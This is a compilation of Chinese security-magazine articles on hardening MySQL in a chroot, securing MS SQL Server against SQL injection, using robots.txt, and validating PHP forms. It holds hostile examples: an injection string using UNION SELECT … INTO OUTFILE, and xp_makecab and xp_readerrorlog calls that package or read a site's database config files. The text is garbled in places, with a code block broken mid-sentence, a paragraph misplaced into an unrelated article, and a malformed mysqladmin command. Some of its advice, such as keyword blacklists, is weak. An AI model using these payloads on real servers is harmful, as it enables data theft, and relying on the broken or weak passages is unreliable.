总的来说，在 Apache 服务器上安装 MySQL 的过程基本上与手动安装等同。可能唯一的不同点就是使用了一些参数而已，像指定了 `./configure` 行。这里最重要的不同点在于参数 `--with-mysqld-ldflags=-all-static` 的使用，它可以使 MySQL 服务器使用静态连接。就像在第三部分涉及到的其他参数一样，这将显著简化改变服务器的根路径的过程。它们通知 make 程序安装在目录 `/usr/local/mysql` 下，以 mysql 账户的权限运行 MySQL 的后台程序，并且在 `/tmp` 目录下创建 `mysql.sock` 套接字。

## 2. 拷贝配置文件

在执行了上面的命令后，我们还必须拷贝默认的配置文件以与期望的数据库大小一致。例如：

```bash
cp support-files/my-medium.cnf /etc/my.cnf
chown root.sys /etc/my.cnf
chmod 644 /etc/my.cnf
```

## 3. 启动服务器

到这里为止，MySQL 已经完全安装了，并且整装待发了。我们可以通过执行下面的命令来启动 MySQL 的服务器：

```bash
/usr/local/mysql/bin/mysqld_safe &
```

## 4. 测试连接

尝试与一个数据库建立连接：

```bash
/usr/local/mysql/bin/mysql -u root mysql
```

如果连接成功，系统将显示如下内容：

```text
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2 to server version: 4.0.13-log
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

然后，我们就可以看看本机上有哪些数据库，如下所示：

```sql
mysql> show databases;
+----------+
| Database |
+----------+
| mysql    |
| test     |
+----------+
2 rows in set (0.00 sec)
```

然后退出当前命令，使用如下命令：

```sql
mysql> quit;
```

一旦连接成功建立，我们就可以通过如下命令关闭数据库：

```bash
/usr/local/mysql/bin/mysqladmin -u root shutdown
```

如果不这样做，我们就应该分析一下存储在 `/usr/local/mysql/var/'hostname'.err` 日志文件中的信息，以消除导致问题的因素。

#### 改变服务器的默认根目录

接下来的第一步就是准备 chrooted 环境，以使 MySQL 服务器能够运行。这里的目标操作系统是 FreeBSD 4.7。然而，本文中所讲授的方法同样适用于大多数的 UNIX 和类似 UNIX 的系统。

### 1. 准备 chroot 环境

为准备 chrooted 环境，我们必须创建如下的目录：

```bash
mkdir -p /chroot/mysql/dev
mkdir -p /chroot/mysql/etc
mkdir -p /chroot/mysql/tmp
mkdir -p /chroot/mysql/var/tmp
mkdir -p /chroot/mysql/usr/local/mysql/libexec
mkdir -p /chroot/mysql/usr/local/mysql/share/mysql/english
```

### 2. 设置访问权利

上面对目录的访问权利应该如下设置：

```bash
chown -R root:sys /chroot/mysql
chmod -R 755 /chroot/mysql
chmod 1777 /chroot/mysql/tmp
```

### 3. 创建目录结构

接下来，下面的这些文件应该拷贝到新的目录中：

```bash
cp /usr/local/mysql/libexec/mysqld /chroot/mysql/usr/local/mysql/libexec/
cp /usr/local/mysql/share/mysql/english/errmsg.sys /chroot/mysql/usr/local/mysql/share/mysql/english/
cp /etc/hosts /chroot/mysql/etc/
cp /etc/host.conf /chroot/mysql/etc/
cp /etc/resolv.conf /chroot/mysql/etc/
cp /etc/group /chroot/mysql/etc/
cp /etc/master.passwd /chroot/mysql/etc/passwords
cp /etc/my.cnf /chroot/mysql/etc/
```

### 4. 强化密码和组

我们必须从文件 `/chroot/mysql/etc/passwords` 和 `/chroot/mysql/etc/group` 里删除除了 mysql 账户和组以外的行，接下来，还应该按照如下方法 build 密码数据库：

```bash
cd /chroot/mysql/etc
pwd_mkdb -d /chroot/mysql/etc passwords
rm -rf /chroot/mysql/etc/master.passwd
```

### 5. 特殊考虑

在 Apache Web 服务器上，我们还必须创建一个特殊的设备文件 `/dev/null`：

```bash
ls -al /dev/null
```

系统将显示如下的信息：

```text
crw-rw-rw- 1 root sys 2, 2 Jun 21 18:31 /dev/null
```

然后，我们再使用如下的命令：

```bash
mknod /chroot/mysql/dev/null c 2 2
chown root:sys /chroot/mysql/dev/null
chmod 666 /chroot/mysql/dev/null
```

我们还必须拷贝那些包含着在 MySQL 安装过程中创建的包含授权表的 mysql 数据库：

```bash
cp -R /usr/local/mysql/var/ /chroot/mysql/usr/local/mysql/var
chown -R mysql:mysql /chroot/mysql/usr/local/mysql/var
```

### 6. 本地化

如果主机上使用的默认语言不是英语，我们还应该拷贝合适的字符集，可以在目录 `/usr/local/mysql/share/mysql/charset` 下找到。

### 7. 测试配置

现在，MySQL 应该可以在 chrooted 环境中运行了。我们可以通过下面这个命令来验证一下它是否能正确地运行：

```bash
chrootuid /chroot/mysql mysql /usr/local/mysql/libexec/mysqld &
```

如果在执行了上面的命令后出现了错误，我们应该使用 truss 命令或者具有等价功能的命令，如：`ktrace / kdump`、`strace` 等等。这些命令可以帮助我们来找出和消除引起问题的原因。

> 脚本小子：这里为了能够运行 mysqld 进程，使用的是 chrootuid 程序而不是 chroot 程序，因为假设是在 Apache 或者 PHP 的环境下，它们两个的主要不同在于 chrootuid 可以改变执行进程的所有者；在我们的例子里面，mysqld 在一个 chrooted 环境下被执行的，但是进程的所有者不是 root，而是 mysql 用户。Chrootuid 在许多操作系统里并不是默认安装的，需要我们从网上下载下来，然后手动安装上去。可以到网址 `ftp://ftp.porcupine.org/pub/security/chrootuid-1.3.tar.gz` 下载。

#### 配置服务器

接下来的步骤，我们就要来配置数据库服务器，使之能够适合我们的安全性要求。

在假定 MySQL 进行默认安装的时候，主要的配置文件是 `/etc/my.cnf`。然而，在我们的例子里，因为是在 chrooted 环境下运行服务，所以我们就要使用两个配置文件 `/chroot/mysql/etc/my.cnf` 和 `/etc/my.cnf`。其中，前一个可以被 MySQL 服务器使用，而后一个要被 MySQL 工具（如 `mysqladmin`、`mysql`、`mysqldump` 等）使用。

### 1. 禁止远程访问

我们知道，MySQL 默认情况下使用 TCP 的 3306 端口，所以，我们首先要改变一下。因为，按照我们开始的设想，数据库仅仅是让本机的 PHP 应用程序访问，所以，我们可以将这个监听端口的功能禁止掉。这样就可以降低 MySQL 数据库遭受直接经由 TCP/IP 访问的外部主机攻击的可能性。而同时，本地的交互还可以通过 `mysql.sock` 套接字进行。为了能够禁止在 3306 端口上监听，我们要将参数 `skip-networking` 添加到 `/chroot/mysql/etc/my.cnf` 目录下 `[mysqld]` 部分。如果在有的时候还需要从外部访问数据库，可以按照如下方法使用 SSH 协议。

```bash
backuphost$ ssh mysqlserver /usr/local/mysql/bin/mysqldump -A > backup
```

### 2. 提高本地安全性

接下来，为了防止对本地文件进行未授权的访问，我们还需要禁止掉对 `LOAD DATA LOCAL INFILE` 命令的使用。这对于有效防止当在 PHP 应用程序中发现了新的 SQL 注入漏洞时是非常有效的。这里，我们需要对在目录 `/chroot/mysql/etc/my.cnf` 下的 `[mysqld]` 部分加一个参数 `set-variable=local-infile=0`。

另外，为了更方便地使用数据库管理工具，我们还必须改变 `/etc/my.cnf` 目录 `[client]` 部分的参数设置为 `socket=/chroot/mysql/tmp/mysql.sock`。这样，当我们以后再需要用到管理工具的时候，就不用每次都来使用带有 `socket=/chroot/mysql/tmp/mysql.sock` 参数的命令了。

### 3. 改变管理员的密码

在加强 MySQL 安全性的这些步骤里，改变管理员的密码是很重要的一步，但是，这首先需要 MySQL 运行起来，可以通过如下命令实现：

```bash
chrootuid /chroot/mysql mysql /usr/local/mysql/libexec/mysqld &
```

用下面的命令改变管理员的密码：

```sql
/usr/local/mysql/bin/mysql -u root
mysql> SET PASSWORD FOR root@localhost=PASSWORD('new-password');
```

> 脚本小子：不要直接在命令行里改变密码，如使用 “mysqladmin password” 命令，因为这就有可能被同时使用服务器的其他用户看到，从而泄漏密码。例如：其他用户可以使用 “ps aux” 命令或者查看历史文件，就可以看到我们设置的密码。

### 4. 删除默认的数据库和用户

接下来，我们必须删除示例数据库和除了 root 账户以外的所有其他账户，可以使用如下命令来实现：

```sql
mysql> drop database test;
mysql> use mysql;
mysql> delete from db;
mysql> delete from user where not (host="localhost" and user="root");
mysql> flush privileges;
```

这就可以有效阻止对数据库的匿名连接和清除在 `/chroot/mysql/etc/my.cnf` 下的与 `skip-networking` 无关的参数，从而阻止远程连接。

### 5. 改变管理员的登录名称

我们同样也推荐将默认管理员的账户名称修改，这样，就可以使得外部用户很难猜测账户名称。这样一个改变，就可以有效地阻止对管理员密码的暴力攻击和字典攻击。因为，攻击者首先要猜测出用户名，然后才能猜测密码。可以通过如下方式改变：

```sql
mysql> update user set user='mydbadmin' where user='root';
mysql> flush privileges;
```

### 6. 删除历史记录文件

最后，我们应该将 MySQL 中历史文件的内容删除，因为所有执行过的 SQL 命令都被以明文的形式存储在这里，很容易泄密。这可以通过如下方式实现：

```bash
cat /dev/null > ~/.mysql_history
```

### 如何在 PHP 和 MySQL 之间进行交互

因为本地的 PHP 与 MySQL 之间的交互通过 `/tmp/mysql.sock` 套接字进行，而将 PHP 放在 chrooted 环境中意味着它们之间不能交互。为了解决这个问题，在我们每次使用 MySQL 的时候，都必须先创建一个到 PHP 的 chrooted 环境的硬连接。这可以通过如下命令实现：

```bash
ln /chroot/mysql/tmp/mysql.sock /chroot/httpd/tmp/
```

> 脚本小子：`/chroot/mysql/tmp/mysql.sock` 套接字和 `/chroot/httpd/tmp` 目录必须处在相同的文件系统下，否则它们之间的硬连接将不能正常工作。

现在，我们要创建能够被指定的 PHP 应用使用的所有的数据库和账户，需要注意的是，这些账户仅仅拥有通过 PHP 应用对数据库进行访问的权利。特别需要指出的就是，这些账户不应该具有对 mysql 数据库访问的任何权力，当然更不用说对系统的访问和管理特权（`FILE`、`GRANT`、`ALTER`、`SHOW DATABASE`、`RELOAD`、`SHUTDOWN`、`PROCESS` 和 `SUPER` 等）了。

最后，我们也应该创建一个 shell 脚本，用来在启动系统的时候来运行 MySQL，可以到 `http://www.securityfocus.com/unix/images/mysql.sh` 上下载，而在我们的 FreeBSD 系统里，上面的脚本应该放在 `/usr/local/etc/rc.d` 目录下，取名为 `mysql.sh`。

好了，大功告成，通过上面的设置，如果有人想通过 MySQL 入侵你的服务器，估计不死都得掉层皮，嘿嘿！

采用上面陈述的方法，我们可以显著提高 MySQL 的安全性。通过在一个 chrooted 环境下运行数据库，禁止掉对 TCP 3306 端口的监听，采用强壮的用户密码，我们就可以使数据库免受大多数的攻击。虽然没有方法能够使我们得到 100% 的安全性，但是使用描述的方法，至少可以降低来自访问我们的 Web 服务用户的不明目的攻击的可能性。

## TIPS，MYSQL 的常用命令

- **1. 连接 MYSQL。**  
  格式：`mysql -h主机地址 -u用户名 -p用户密码`  
  例：连接到远程主机上的 MYSQL。假设远程主机的 IP 为 `10.10.10.10`，用户名为 `root`，密码为 `abcd123`，则键入以下命令：  
  `mysql -h10.10.10.10 -uroot -pabcd123`

- **2. 修改密码。**  
  格式：`mysqladmin -u用户名 -p旧密码 password 新密码`  
  例：给 root 加个密码 `ab12`。首先在 DOS 下进入目录 `mysql\bin`，然后键入以下命令：  
  `mysqladmin -uroot -password ab12`

- **3. 增加新用户。**  
  格式：`grant select on 数据库.* to 用户名@登录主机 identified by "密码"`  
  例：增加一个用户 `test1`，密码为 `abc`，让他可以在任何主机上登录，并对所有数据库有查询、插入、修改、删除的权限。  
  例：增加一个用户 `test2`，密码为 `abc`，让他只可以在 `localhost` 上登录，并可以对数据库 `mydb` 进行查询、插入、修改、删除的操作，这样用户即使知道 `test2` 的密码，他也无法从 Internet 上直接访问数据库，只能通过 MYSQL 主机上的 Web 页来访问了。  
  `grant select,insert,update,delete on mydb.* to test2@localhost identified by "abc";`

脚本小子：众所周知，如今使用 SQL INJECTION 技术入侵网站成了主流，那相对于这样的攻击方式来讲，如何配置一台安全可靠的 MS SQL SERVER 服务器呢？让它有足够的强度抵御攻击？本文将以实例的方式和大家共同探讨。

文／aman

### 打造抵御 SQL 注入攻击的 MS SQL 服务器

MS SQL SERVER 的安全性问题一般是由于配置不当而引起，攻击者可通过这样的配置获得很高的权限来执行 SQL 指令（如：`sp_addlogin`、`xp_subdirs` 的存储过程），配置一台安全可靠的 MS SQL SERVER 对你的网站整体安全会起到关键性作用！让我们一起来看一看：

使用 `db_reader`、`db_writer` 不能直接用 SQL 指令建表，但是对于网站的安全也起到了至关重要的作用，入侵者无法使用 `create table`，想进一步获取服务器信息，无处保存。那当然，低权限也会给入侵者带来读表的权限，所以说合理的数据库权限，给你的网站安全加了一道墙。

### 1. 用户权限分布

用户分配的权限有两种：

- 网络空间提供商提供的 MS SQL 账号，一般这类型账号的权限是 `db_owner`，也就是数据库所有者，拥有管理个人数据库文件的所有权限，针对自己的那个库文件，无法跨越别人的库文件，针对 `MASTER` 还有一定的权限。

- 主机托管，这类型的主机的 MS SQL 的权限，有很大一部分能达到 `SYSADMIN` 服务器角色组；相对来说这类型网站，被入侵的几率达到 99%。

权限的安全合理配置是至关重要的，对于使用网站程序调用 SQL 数据库的配置，更加重要。首先，用于程序连接数据库的用户应拒绝使用服务器角色组成员，应使用数据库用户角色组的成员，最好的方法是只给予 `db_reader`、`db_writer` 权限，遇到有需要备份的用户请另行新建用户——注意：只要有备份权限就可以通过 BACKUP 得到 WEBSHELL！

### 2. 数据库存储过程的分配

删除所有对数据库可有可无的存储过程，对注册表操作的扩展进程：

```text
Xp_regaddmultistring
Xp_regdeletekey
Xp_regdeletevalue
Xp_regenumvalues（通过它可获得所有网页目录）
Xp_regread（对 Public 可以执行）（通过它可获得默认网页根目录，“\”）
Xp_regremovemultistring
Xp_regwrite
```

很多人只留意到这几部分，还有一组：

```text
xp_instance_regaddmultistring
xp_instance_regdeletevalue
xp_instance_regenumkeys
xp_instance_regread
xp_instance_regremovemultistring
```用的权限达到 dbo 以上）：

```text
xp_cmdshell（现在几乎所有的服务器都通杀了）

xp_dirtree（查看目录树，由此了解你目录的）

xp_subdirs（用起来就跟 DIR C:\ 一样，不过显示的只是目录）

xp_fileexist，用来确定一个文件是否存在。

xp_getfiledetails，可以获得文件详细资料。

sp_OACreate（通过它，危害更大，但是要有 SYSADMINS 权限才可能使用）

sp_OAGetErrorInfo

sp_OAGetProperty

sp_OAMethod

sp_OASetProperty

sp_SetProperty

sp_OAStop

使用下面的存储过程：

xp_makecab(dbo.xp_makecab，'c:\test.cab'，'mszip'，1，'C:\Inetpub\wwwroot\SQLInject\login.asp'，'C:\Inetpub\wwwroot\SQLInject\securelogin.asp')
```

如果入侵者使用 conn.asp、dbconn.asp、databaseconn.asp 这类的配置文件，就能找出目录，再用上面的命令就可以把你的程序打包再下载，你的 SQL 密码将被一览无遗（建议连接密码文件加密）。

```text
xp_makewebtask（用 WEB 作业得到 WEBSHELL）

xp_runwebtask

xp_readerrorlog（读取出错的记录，但我们可能用它来读取文件：exec master.dbo.xp_readerrorlog 1，'c:\inetpub\wwwroot\dvbbs\conn.asp'）
```

## 3. 程序的安全

程序的安全问题危害到了 MS SQL，下面是一些注意事项：

- 1. 书写程序，带值输入应详细过滤，如 `'`、`;`、`=`、`update`、`select`、`insert`、`create`、`"`、`--`、`exec`、`execute` 等等用来执行指令的关键字。有人已经研究出如何避过 `'`、分号来得到权限，但是如果你在语句中加入：

```vb
(if instr(request("id"), "'")>0 or instr(request("id"), "insert")>0 or instr(request("id"), ";")>0 then （根据以上提供的那些，重复加上，这些举例）

response.write "<script language=script>"
javascript:history.go(-1)</script>

response.end

end if
)
```

发现这些字符就跳回出处页面，使得攻击者无法判断信息是否正确。通过页面变量直接取值的，请使用 `request.QueryString`，可防止入侵者使用 POST：

```vb
if instr(request.querystring("id"), "'")>0 or instr(request.querystring("id"), "insert")>0 or instr(request.querystring("id"), ";")>0 then （根据以上提供的那些，重复加上，这些举例）

response.write "<script language=script>javascript:history.go(-1)</script>"

response.end

end if
```

- 2. 改掉预设的 Web 虚拟路径，不要使用 IIS 装好的预设（系统所在硬盘）\Inetpub\wwwroot 路径，网页目录最好不要放在 C 盘。

- 3. 利用 `On Error Resume Next` 排除网页出错，或使用：

```vb
if Err.Number<>0 then

response.write redirect url

end if
```

重定向到你指定的系统页面。删除或修改默认的出错页面（重点是 500 出错页面），修改默认出错页面，让入侵者无法参考出错信息。

## 4. 系统的配置

- 1. 使用防火墙关闭 TCP 1433/UDP 1434 端口对外连接。

- 2. 升级最新的补丁（关注微软发布的补丁文件，以便及时修补，最新 MS SQL 2000 Server 有 SP4 补丁了）。

- 3. 检查系统是否存在弱口令用户，一旦出现就要及时修改密码。

最后，网站的安全还是要靠广大程序员来共同维护，一时麻痹大意将使你的网站面临很大的灾难。SQL Injection 可谓防不胜防，这些方面也不单单是 MS SQL，包括 ORACLE、SYBASE、MYSQL 等等，希望能创造出好的网络环境。

脚本小子：逃避搜索引擎？看到这个题目也许会让你觉得迷惑，一般都是千方百计让引擎搜索到自己的网站，怎么还要让它找不到自己呢？呵呵，如果你的私人秘密也能被人搜索到，那你会怎么想？不用费脑细胞了，往下看就能找到答案！

### 搜索引擎能奈我何？

文／安全天使－晓风、残月

假如你是一个站长，我想你总在千方百计地让你的网站能在搜索引擎里面找到，并且能够在搜索引擎里面排名靠前，但有时，你可能并没登录过任何搜索引擎，可却莫名其妙地发现可以通过它搜索到你的网站。或许有的主页内容你乐于世人皆知，但有的内容你却不愿被洞察、索引，可能你要求用户验证，但这并不能逃避搜索引擎的搜索，只要在搜索引擎里面搜索到你的这个网页，不用密码照样可以登录，并且简单的加密常常容易被攻破，难道使用数据库吗？这不但消耗宝贵网站空间资源，对于一些简单的站点，又无法实现，怎么办呢？搜索引擎不是个蛮不讲理、横行霸道的入室盗贼，如何把搜索引擎拒之门外呢？

#### 探索搜索引擎原理

首先，我们要知道搜索引擎的工作原理。网络搜索引擎主要由网络机器人（Robot，这个是全文的关键）、索引数据库和查询服务 3 个部分组成。只要被网页机器人找到的网页，就会在搜索引擎的数据库中建立索引。利用查询客户端，就一定可以找到你的网页，所以下面的关键是研究这个网络机器人。

Web Robot 其实是一种程序，它可以侦测大量 Internet 网址的超文本结构和网页里的 URL 连接，递归地检索网站所有的内容。这些程序有时被叫做“蜘蛛（Spider）”、“网上流浪汉（Web Wanderer）”、“网络蠕虫（Web worms）”或 Web crawler。大型的搜索引擎站点（Search Engines）有专门的 Web Robot 程序来完成这些信息的采集，高性能的 Web Robot 会自动地在互联网上搜索信息。一个典型的网络机器人的工作方式是查看一个页面，并从中找到相关的关键字和网页信息，例如：标题，网页在浏览器上的 Title，还有一些经常被用来搜索的词汇，等等。然后它再从该页面的所有链接中出发，继续寻找相关的信息，以此类推，直至穷尽。网络机器人为实现其快速地浏览整个互联网，通常在技术上采用抢先式多线程技术来实现在网上聚集信息。

通过抢先式多线程的使用，它能索引一个基于 URL 链接的 Web 页面，启动一个新的线程跟随每个新的 URL 链接，索引一个新的 URL 起点。把搜索到的信息建立索引，就可以让用户搜索了。呵呵，可能你会想到，这样下去，不是个无限循环呀？当然，机器人也需要休息的，网络机器人是定期发出的，完成一个工作时段就结束。所以，刚制作完成的网页，不会马上被收入搜索引擎索引里。说到这里，网络搜索引擎的基本工作原理基本上让大家了解了。指挥这个网络机器人，不让它见门就进、见路就闯，就是接下来的工作了。

#### 逃避搜索引擎的法眼

作为搜索引擎的开发者，同样留给了网络管理员或网页制作者一些方法来限制网络机器人的行动：

当 robots 访问一个网站（比如 http://www.yoursite.com）时，首先会像一个大宅子的陌生访问者一样，先查看该宅子是否同意它进入，如果不同意，它就悄然无声地走掉；如果同意，它会看着主人只允许它进入哪些房间。网络机器人首先检查该网站中是否存在 http://www.yoursite.com/robots.txt 这个文件，如果找不到这个文件，那么机器人就会横冲直入，查遍它需要查找的信息；如果机器人找到这个文件，它就会根据这个文件的内容，来确定它访问权限的范围。当然，如果该文件的内容为空的话，那么也就相当于没有找到文件一样，大胆行事。记住 robots.txt 文件应该放在网站根目录下哦。

robots.txt 文件中的记录通常以一行或多行 User-agent 开始，后面加上若干 Disallow 行，详细情况如下：

```text
User-agent:
```

该值用于描述搜索引擎 robot 的名字，不同的搜索引擎是有不同的名字的，在 “robots.txt” 文件中，如果有多条 User-agent 记录说明有多个 robot 会受到该协议的限制。对这个文件来说，如果你需要限制 robots，那么至少要有一条 User-agent 记录。如果该项的值设为 `*`，则该协议对任何机器人均有效。在 “robots.txt” 文件中，“User-agent:*” 这样的记录只能有一条。

```text
Disallow:
```

该值用于限制 robot 访问到的一个 URL，这个 URL 可以是一条完整的路径，也可以是部分的。任何以 Disallow 开头的 URL 均不会被 robot 访问到。例如 “Disallow:/hacker” 对 /hacker.html 和 /hacker/index.html 都不允许搜索引擎访问，而 “Disallow:/hacker/” 则 robot 照样可以访问 /hacker.html，而不能访问 /hacker/index.html。任何一条 Disallow 记录为空，也就是说在多条 Disallow 记录下，只要有一条是写成 “Disallow:” ，说明该网站的所有内容都允许被访问。在 “/robots.txt” 文件中，至少要有一条 Disallow 记录。

下面是 robots.txt 的一些例子，只要把下列的任何一个代码保存为 robots.txt，然后传到指定位置，就可以实现逃避搜索引擎的法眼：

例 1. 禁止所有搜索引擎访问网站的任何部分：

```text
User-agent: *
Disallow: /
```

例 2. 允许所有的 robot 访问：

```text
User-agent: *
Disallow:
```

例 3. 禁止某个搜索引擎的访问：

```text
User-agent: BadBot
Disallow: /
```

例 4. 允许某个搜索引擎的访问：

```text
User-agent: Baiduspider
Disallow:
User-agent: *
Disallow: /
```

例 5. 一个简单例子：

在这个例子中，该网站有 3 个目录对搜索引擎的访问做了限制，即搜索引擎不会访问这 3 个目录。需要注意的是对每一个目录必须分开声明，而不要写成 “Disallow: /cgi-bin/ /bbs/”。User-agent: 后的 `*` 具有特殊的含义，代表 “any robot”，所以在该文件中不能有 "Disallow: /bbs/*" or "Disallow: *.gif" 这样的记录出现。

```text
User-agent: *
Disallow: /cgi-bin/
Disallow: /bbs/
Disallow: /private/
```

是不是这样设置后，搜索引擎马上就找不到我们所限制的网页呢？不是的，就像文章开始前说过，网络机器人是定时发出的，一旦在索引数据库里面做了记录，就要等下次更新数据库时才有可能生效。一个快捷的办法，就是马上到搜索引擎上去注销你的网页，可这个也是需要等待几天的。如果对十分重要的网页，只要更换个目录或文件名就可以了。

对于你已经希望保密的网页来说，千万不要在其他未保密的网页里有 URL 连接到这些网页上。在网络机器人工作原理那已经说过，它可以从该页面的所有链接中出发，继续寻找相关的信息。

可能到了这，你已经对你的保密网页感到安全了。可是，你想到没有，对于纯文本文件，是可以通过 HTTP 或 FTP 下载的，也就是说，有存心不良的人，可以通过这个 robots.txt 找到一些线索。解决的办法最好使用 Disallow 时，用来限制目录，并且对这个目录下需要保密的网页，使用特殊的文件名，不要使用 index.html 之类的名字，不然这跟猜弱口令一样容易。起些形如 d3gey32.html 的文件名，你的网页就安全多了。

最后还不放心的话，就再给保密网页上一道密码验证的保险，那就高枕无忧了。

> 脚本小子：大家是否还记得榕哥刚公布“翔雪”时广大黑友们激动的心情？那时候榕哥对表单的见解让人折服。时至今日，我们再来看看从脚本方面看表单安全又是怎样一种风景呢？

### 表单……又见表单

文／angel

最近我在做几个 Web 程序，结合我的一些经验，对一个接收自由提交表单的数据的文件进行安全性分析，不敢和小榕的思路相比，也根本没得比，希望对各位有帮助。首先说明一下，代码中的 error() 和 succeed() 是我自定义的函数，用于显示错误信息和成功信息，其实也可以直接 echo 出错误信息，我只是想让我的出错信息页面漂亮点，定义了一个页面输出的函数罢了。

对于一个学习过 PHP 的人很容易看懂，但为什么我要拿来分析，因为在我学习 PHP 期间，看了不少程序的代码，发现有个很普遍的问题，那就是大多数程序对于接受来自表单的数据做的检查还是不够严谨。这恐怕是程序员思维问题，因为这些安全措施都是很容易实现的。

> 详细命令请看光盘“杂志相关”栏目。

#### 问题分析

上面是一个记录评论数据的文件。表单如下：

```html
<form action="savecomment.php" method="POST">
<input type="hidden" name="blogid" value="<?
=$row[blogid]?>">
您的名字：<input name="name" type="text"
size="20" maxlength="100">
评论内容：<textarea name="content" cols="60"
rows="8"></textarea>
<input type="submit" name="Submit" value="提交">
</form>
```

对于一个简单的评论功能，我们假设它有两个地方需要填写，即评论人的姓名和评论内容，我们需要判断的地方如下：

- 表单是否为空
- 表单长度（该项和上面的项判断称为逻辑性判断，凡事都要符合逻辑）
- 表单内容（判断记录是否存在于数据库内，防止重复提交）
- 隐藏变量的过滤（如果有的话，注意上面表单有一个隐藏变量 `type="hidden"`，这往往容易让人忽略）
- 提交时间间隔（这个是最最容易被忽略的）
- 修改隐藏变量进行非法提交（比如注入）

逻辑判断很多人都做了，这个仅仅解决了程序的逻辑问题。作为安全的程序，我们还要从安全的角度进行判断。一个没有做过安全检查的此类程序，最容易受到以下攻击：

- 重复提交（对 Web 程序进行 DOS 攻击）

修改隐藏变量通常是在本地构造一个表单，然后指定隐藏变量，如果过滤不到位，直接构造：

```sql
'1' or 1=1 UNION SELECT * FROM any_table
INTO OUTFILE 'c:/www/info.txt'
```

然后提交，会有什么结果不用说了吧？如果采用 POST 提交表单后刷新会出现提示，然后确定就可以反复提交，这样既浪费服务器的资源，如果量大的话站点速度可能会受少许影响。特别是数据量大的搜索引擎，这就是小小表单未做安全过滤的结果，相信任何站点管理员也不想看到吧？所以，我们就要进行防御。

#### 防御思路

针对隐藏变量我们可以过滤，这个原来《黑防》讲过很多，我就不再废话了。针对重复提交我们可以这样：

- 采用 cookie/session 进行提交时间间隔的判断
- 提交前用 strlen() 函数判断欲提交的标题和内容是否和数据库里已有的一致
- 完成提交后用 `Header("Location: url");` 跳转到其他页面

下面我们就对上面的 savecomment.php 的 if 代码段进行分析。关于针对修改变量攻击的防御代码大家可以看我在代码上的注释。对于采用 cookie/session 进行提交时间间隔的判断这两种方法，我有以下看法：

Cookie：信息存在客户端，利用工具可以修改、删除使 Cookie 失效，因为它是连续发送，中间的间隔时间很短，来不及去删除该 Cookie，但也不排除自己编段小程序来删除 Cookie。如果对 Cookie 不放心可以采用 Session。

Session：信息存放在服务器，攻击者不可能修改，但会占用服务器一点点资源。我的服务器好，我就用 Session，放心，呵呵。

下面来看看分别用这两种方式验证的代码：

```php
1. Cookie
<?php
if (isset($_COOKIE['beforeid'])) {
    error("对不起，你两次提交的时间间隔还不到 2 分钟<br>");
} else {
    setcookie("beforeid", $blogid, time()+60*2, "/", "", 0);
    succeed("评论提交成功<br>");
}
?>
```

先检查相关 Cookie 是否存在，已存在则给出错误提示，不存在则正确执行相应的代码段，比如插入 INSERT 语句。执行完毕以后设置一个 Cookie，表示已经提交过，60*2 表示 2 分钟。

```php
2. Session
<?php
session_start();
if (session_is_registered("time") && time()-$_SESSION['time'] < 60*2) {
    error("对不起，你两次提交的时间间隔还不到 2 分钟<br>"); // $time：前一次提交的时间
} else {
```

先检查相关 Session 是否存在，已存在则给出错误提示，不存在则正确执行相应的代码段，比如插入 INSERT 语句。执行完毕以后设置一个 Session，表示已经提交过，60*2 表示 2 分钟。

```php
    $time = time();
    session_register("time");
    succeed("评论提交成功<br>");
}
?>
```

这个时间间隔的方法可以用于各种表单，比如搜索、留言等，可以有效地控制程序的有序运行。至于第三个思路是用 `Header("Location: url")` 跳转页面，我想既然加入了 cookie/session 验证就不必贸然跳转了，毕竟大家还是想看看提交的相关信息的。

怎么样？想不到小小的表单验证有这么大的学问吧？简单几行代码就切断攻击者的路子，其实这些都很容易，重要的是开发人员验证的思路。

难度等级：中　适合对象：程序设计爱好者

前置知识：Javascript 函数的使用技巧，网络数据库加密常识


### 用 Javascript 加密数据库

文／图　张贤高

脚本小子：大家的数据库是否经常受到黑客的威胁呢？数据库被别人莫名下载是一个严重的问题，可以说是防不胜防，那么我们有没有一种方法可以使数据库加密，即使被人下载了我们的数据库也没办法阅读呢？当然有！

本篇文章着重介绍两种利用 Javascript 函数实现对网站数据库加密的方法，以及加密的原理及效果，以确保网站数据库信息的安全，避免数据库被下载以后的威胁。网站数据库的加密方法有多种，有的是通过对数据库设置密码，有的是通过数据加密的方法，这里介绍两种方法，其基本原理如图 1 所示。

要得到更加安全的数据库内容，就必须在加密的手段和方法上下功夫，从而确保数据库的安全。


#### 不隐藏密钥的加密方法

在网站的建设中，需要脚本加入所需要加密的代码或函数，通过这些函数将数据信息进行加密后保存在数据库中，函数的加密原理及密钥均在函数中，只要他人不看到这个函数，就很难破解数据库的信息。加密和解密运行后的结果如图 2 所示：


> 详细命令请看光盘“杂志相关”栏目。

通过加密后的数据库信息已变成不可认的信息或乱码，别人没有办法查看数据库中的内容。

#### 隐藏密钥的加密方法

这种方法是在上述方法的基础上，通过函数读取文件中的密钥后，再进行加、解密，密钥可以以磁盘的形式随身带，这种加密方法更加安全、可靠。

> 详细命令请看光盘“杂志相关”栏目。

加密的方法有多种，关键还是要找准其中的算法，让别人无法找到密钥，最大限度地确保信息的安全，你完全可以自己创造一个算法来进行加密！

一个人只会加 cookie/session 验证这个思路，结合 Envymask 的判断长度这条思路，我又掌握一点，其实开发安全的程序，安全措施的思路很重要，即使掌握各种防御代码，但如果不考虑严谨，照样有空子可钻。

鄙人刚学 PHP 不到半个月，写的代码不够规范、严谨，在各位高手面前班门弄斧了，有不足的地方请指正。

### 防范 SQL 注入

文／秀强

如今网络上最流行的攻击，莫过于 SQL 注入式攻击了，到处可以看到这类的东西，有的时候让我们做管理员的头痛，那如何来防范注入呢？可以大致分为 3 个部分：

### 1．验用户的输入

对一些特殊的字符，例如：“'”、“;”、“"”、“<”、“>”等等，这些都要进行处理，或者转换，或者过滤。使用强制转换数据类型，比如说想要用户输入一个整型类型，那么你可以把用户输入的数据强制转换为整型。还有限制用户输入的数据的长度，所有的这些方法都要在服务器下进行，因为任何客户端提交的东西都不是完全可以信任的，所以最好的办法就是在服务器下对这些字符进行检验。

举例：在一般的页面下，要求用户登录时，必须输入用户名（p_strUsername）和用户密码（p_strPassword）两个字符串类型的变量，这样如果一个恶意的用户在任意一个参数中插入单引号，这都有可能使数据库执行单引号中的 SQL 指令，这时可以借助 Replace 函数删除单引号如下：

```vb
p_strUsername = Replace(Request.Form("txtUsername"), "'", "")

p_strPassword = Replace(Request.Form("txtPassword"), "'", "")
```

#### 2．最少权限的设置

